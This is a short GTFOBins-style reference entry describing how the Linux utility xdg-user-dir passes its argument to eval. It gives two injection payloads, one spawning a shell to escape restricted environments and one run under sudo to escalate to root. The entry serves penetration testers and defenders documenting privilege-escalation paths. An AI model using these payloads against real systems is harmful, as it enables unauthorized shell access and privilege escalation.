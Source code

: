 # GTFOBin: xdg-user-dir

The current implementation of `xdg-user-dir` is basically `eval echo \${XDG_${1}_DIR:-$HOME}`, thus is can be easily used to achieve command execution.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
xdg-user-dir '}; /bin/sh #'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo xdg-user-dir '}; /bin/sh #'
```